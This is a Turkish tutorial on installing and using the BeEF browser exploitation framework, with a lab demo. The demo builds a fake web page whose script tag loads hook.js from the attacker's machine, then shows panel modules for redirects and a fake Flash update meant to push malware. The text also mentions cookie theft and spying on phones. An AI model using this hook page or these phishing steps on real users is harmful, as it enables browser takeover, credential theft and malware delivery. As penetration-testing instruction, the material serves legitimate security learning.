# BeEF

BeEF, The Browser Exploitation Framework'in kısaltmasıdır Türkçesi olarak Tarayıcı Sömürme Aracı gibi çevirebiliriz . Web tarayıcısına odaklanan bir penetrasyon test aracıdır.

<figure><figcaption></figcaption></figure>

Mobil tarayıcılar da dahil olmak üzere web tarayıcısına odaklanan bir penetrasyon test aracıdır.

İstemci web tarayıcısında çalışan hook.js adında Javascript dosyası saldırgana ait bilgisayara ters bağlantı kurar (varsayılan olarak TCP\3000 portunda ) ve saldırgan da kullanıcı yetkisi dahilinde komut çalıştırabilir.

Saldırgan bağlantıyı sağladıktan sonra istemci ekranında tarayıcının yapabilecekleri çerçevesinde çeşitli eylemlerde bulunur.

Saldırganın bağlantı kurduktan sonra yapabilecekleri:

* Phishing saldırıları düzenleme
* Cookie çalma
* DOS, DDOS saldırıları için zombie bilgisayar haline getirme vb.

Yapabileceklerimizi anladıktan sonra BeEF'in kurulumuna ve çalıştırılmas kısımlarına geçelim.

### BeEF yükleme adımları

1. Öncelikle dosyaların bulunduğu repodan dosyaları klonlamamız lazım.

```
git clone https://github.com/beefproject/beef.git
```

2. Sonrasında indirdiğimiz dosyanın içine girelim. ls komutunu çalıştırdığımızda şöyle bir görüntü ile karşılaşmamız lazım.

<figure><figcaption></figcaption></figure>

3. Öncelikle kullanıcak olduğumuz toolun gereksinimleri indirmemiz gerekiyor.
4. ./install komutunu çalıştırdıktan sonra çıkan sorulara "y" cevabını veriyoruz.
5. İndirme işlemleri bittikten sonra ./beef dediğimizde sistemiz başlıyor olucak ama ilk defa kurulum yapıyorsanız default kullanıcı adı ve şifre kullanıyor olduğunuz için sistem çalışmicaktır.

<figure><figcaption></figcaption></figure>

6. Öncelikle config.yaml üzerinden kullanıcı adımızı ve şifremizi değiştirmeliyiz. Bunun için şunları yapıyoruz.

```
nano config.yaml
```

<figure><figcaption></figcaption></figure>

User ve passwd alanları değiştirip kaydediyoruz.

7. Bu işler sonrasında kurulum tamamlanmış oluyor. ./beef yazdığımızda toolun çalışması gerekiyor.

### BeEF kullanımı

<figure><figcaption></figcaption></figure>

./beef yazdıktan sonra işaretli olan URL'i tarayıcımızda açtığımızda BeEFF toolunun paneli açılıyor. Kurulum esnasın değiştirdiğimiz kullanıcı adı ve şifre ile buradan giriş yapıyoruz.

<figure><figcaption></figcaption></figure>

### Peki BeEF nasıl çalışır?

Genel olarak phishing yöntemiyle, BeEF’in ağına dahil olmuş kurbanlar sürekli bilgilerini BeEF’in kurulu olduğu ana sunucuya gönderirler. Sunucunun web paneline kullanıcı adı ve parola ile erişim sağlarlar.

Kurbanların tüm bilgileri sürekli ana sunucuya iletildiğinden saldırgan tüm kurbanların bilgilerine web arayüzü üzerinden ulaşabilecek.

Kullanıcıyı istediğimiz yönde yönlendirdikten sonra IP adresleri üzerinden browser çerçevesinde istediklerimizi yapabiliriz.

Ağımıza düşürdüğümüz kullanıcılara yapabileceklerimiz şu kategorilere ayrılırlar.

Yapabileceklerimize tek tek bakarsak

🟢 Kullanıcı tarafında çalışır ve kullanıcı tarafında görünmez.

🟠 Kullanıcı tarafından çalışır ve kullanıcı tarafından görülebilir.

⚪ Kullanıcı tarafında çalışıp çalışmadığı kesin değil.

🔴 Kullanıcı tarafında çalışmazlar.

### Kullanıcıları nasıl BeEF ile etkileyebiliriz?

BeEF toolu ile kullanıcılara zarar vermek için genel olarak phishing yöntemleri kullanılır. Bir sitenin klon halini oluşturduğumuzda ve zararlı scripti dosyanın içine eklediğimizde ya da zararlı bir link gönderip zararlı scriptin olduğu siteye yönlendirebiliriz. Kullanıcı tarafı bizim sistemimize bilgilerini gönderir ve bizde yapabilecek olduğumuz komutları uygularız.

### Saldırıyı demo edelim

Öncelikle kurulumları yaptıktan sonra fake bir site oluşturmamız ve bunu başka bir bilgisayarda açmamız gerekiyor. Bu demo için bize lazım olanlar:

* Linux dağıtımı kurulu ve BeEF kurulu bir sanal makine
* Herhangi bir işletim sistemi kurulu bilgisayar

Ben demo için Ubuntu kullanıyorum. Öncelikle apache serverı açmamız gerekiyor.

Eğer Linux dağıtımınızda Apache sunucusu yüklü değilse şu komutla indirebilirsiniz

```
sudo apt install apache2
```

Sunucu kurulumundan sonra da /var/www/html altında bulunan index.html dosyamızı düzenlememiz lazım.

Düzenlemeden önce terminal üzerinden BeEF toolunu çalıştırdığımızda karşımıza çıkan yazılarının arasından karşı tarafa yüklemek istediğimiz JavaScript dosyasının linkini not etmeliyiz.

<figure><figcaption></figcaption></figure>

hook.js dosyasını not ettikten sonra /var/www/html altında bulunan dosyayı düzenleyebiliriz. Öncelikle istediğimiz dizine gidip orada bulunan index.html'i silmek istiyorum. Sonrasında kendi index.html dosyamı oluşturacağım. Sırasıyla şu komutlarla devam ediyoruz.

```
cd /var/www/html
sudo rm index.html
nano index.html
```

Açılan pencereye şu html templateini yapıştırıyoruz.

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="http://192.168.19.138:3000/hook.js"></script>
    <!-- UST KISMA SIZIN hook.js LINKINIZ GELICEK-->
</head>
<body>

    <h3>Kişisel WEB sitesi</h3>

    <p>Lorem Ipsum Lorem Ipsum</p>

</body>
</html>
```

Bu işlemleri yaptıktan sonra apache serverımızı başlatıyoruz.

```
service apache2 start
```

Serverın başlayıp başlamadığını anlamak için IP adresimizi tarayıcımıza yazıyoruz.

<figure><figcaption></figcaption></figure>

Böyle bir sayfanın bizi karşılaması lazım. Kurulumlar hazır bundan sonra kullanıcıya bu sitemizin linkini ulaştırmak kalıyor. Farklı phishing yöntemleri deneyerek saldırılarınızı yapabilirsiniz.

Yaptığımız siteyi ana bilgisayarımda açmadan önce BeEF arayüzüne giriyoruz.

<figure><figcaption></figcaption></figure>

Açılan arayüz ekranında sol tarafta bize bağlanmış olan kullanıcılar gözüküyor olucak. Daha önce kimseyi sistemimize bağlamadığımız için şimdilik boş gözüküyor.

Şimdi sistemimize birini bağlamak için hazırlamış olduğumuz siteyi ana bilgisayarımızda açıyoruz.

<figure><figcaption></figcaption></figure>

Sitemize girdikten sonra BeEF üzerinden baktığımızda kullanıcı sistemimize bağlanmış durumda.

<figure><figcaption></figcaption></figure>

Üstüne tıkladığımızda browser hakkkında bilgiler ve yapabileceklerimizi görebiliyoruz.

<figure><figcaption></figcaption></figure>

Bu arayüz üzerinden Details sekmesinden browser hakkında ve cihaz hakkında temel bilgileri alabiliyoruz.

Logs sekmesinden ise tarayıcı ile girdiğimiz etkileşimlerin kayıtları bulunuyor.

Commands sekmesinde browser sınırları içinde yapabileceğimiz komutlar bulunuyor. Birkaç tanesine bakalım.

#### Kullanıcıyı farklı bir sayfaya yönlendirme

Arama kısmına Redirect Browser yazdığımızda ve açılan pencerede verdiğimiz URL'e göre kullanıcıyı o siteye yönlendirebiliriz.

#### Kullanıcıya Fake Flash Update uyarısı çıkarmak

Arama kısmına Fake Flash Update yaptığınızda ve sağ tarafta bulunan payload URI kısmını istediğiniz bir linke doldurup. Kullanıcıya gönderdiğinizde kullanıcının ekranına şöyle bir çıktı geliyor.

<figure><figcaption></figcaption></figure>

Eğer kullanıcı herhangi bir yere dokunursa verdiğiniz URL'e yönlendirilir. Belki de bu sayede kullanıcıya zararlı yazılım yüklemesini sağlayabilirsiniz.

#### Kullanıcının ekranında müzik çalmak

Arama kısmın Play Sound yazdığınızda sağ tarafta Soun File Path olarak gözüken kısma bilgisayarınızda bulunan bir müzik dosyasının pathini girin. Sonrasında execute tuşuna bastığınızda eğer kullanıcı tarayıcısında müzik çalma iznini vermişse istediğiniz müzik çalacaktır.

Sonuç olarak BeEF toolunun temel olarak kullanımını öğrendik. BeEF toolu basit olarak öğrendiklerimizden daha çok şey yapabiliyor. Kullanıcıların cookie ve session değerlerini çalabiliyor. Kullanıcıların kullandığı anti-virüs programları, VLC, Windows Media Player gibi uygulamaların sürümlerini görebiliyor.

Eğer telefon kullanan bir kullanıcıyı bağladıysanız beep sesi çıkarma, fake arama yapma, konum tespit etme, ses kaydetme, kişi listelemesi gibi şeyler yapabiliriz.

Daha detaylı bilgi için BeEF'in kaynak koduna bakabilirsiniz.

[https://github.com/beefproject/beef](https://github.com/beefproject/beef)

> Bu yazı [*Yavuz Kuk*](https://www.linkedin.com/in/yavuzkuk/) tarafından hazırlanmıştır.